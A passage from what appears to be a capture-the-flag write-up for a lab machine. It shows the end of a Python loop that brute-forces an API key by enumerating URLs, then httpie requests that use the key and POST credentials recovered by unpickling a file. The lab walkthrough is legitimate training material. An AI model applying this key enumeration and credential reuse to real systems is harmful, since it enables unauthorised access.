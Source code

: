 ```python
		print("[{}] [URL: {}] Got it".format(i, url+str(i)))
		break
	time.sleep(0.01)
```

Executing the above script will yield us the API key

![API Key](assets/api.png)

We get 595 as the API key, now we make another get request to the URL this time with the API key

```bash
http http://<MACHINE_IP>:5995/<API-KEY>
```

![HTTP2](assets/http2.png)

Now perform a post request to the same URL with the Credentials we got by depickling the file content

```bash
http POST http://<MACHINE_IP>/<API-KEY> username="username" password="password" --json
```
